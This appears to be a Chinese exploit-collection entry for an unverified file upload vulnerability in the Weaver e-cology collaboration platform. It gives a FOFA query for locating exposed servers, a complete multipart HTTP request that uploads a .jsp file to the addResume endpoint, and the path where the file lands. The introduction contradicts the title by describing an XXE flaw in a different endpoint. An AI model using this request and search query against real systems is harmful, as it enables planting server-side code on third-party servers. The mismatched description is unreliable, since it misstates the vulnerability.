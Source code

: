 # 泛微E-Cology系统接口/wxclient/app/recruit/resume/addResume存在文件上传漏洞

泛微e-cology是一款由泛微网络科技开发的协同管理平台，支持人力资源、财务、行政等多功能管理和移动办公。泛微e-cology系统接口`/rest/ofs/deleteRequestInfoByXml` 存在XXE漏洞

## fofa

```java
app="泛微-协同商务系统"
```

## poc
 - 未验证

```java
POST /wxclient/app/recruit/resume/addResume?fileElementId=H HTTP/1.1
Host: 127.0.0.1:8088
Content-Length: 361
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryD5Mawpg068t7pbxZ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryD5Mawpg068t7pbxZ
Content-Disposition: form-data; name="file"; filename="1222.jsp"
Content-Type: application/octet-stream

127
------WebKitFormBoundaryD5Mawpg068t7pbxZ
Content-Disposition: form-data; name="file"; filename="1222.jsp"
Content-Type: application/octet-stream

127
------WebKitFormBoundaryD5Mawpg068t7pbxZ--


上传到/upload/202408/1-2位大写字母/1222.jsp
```

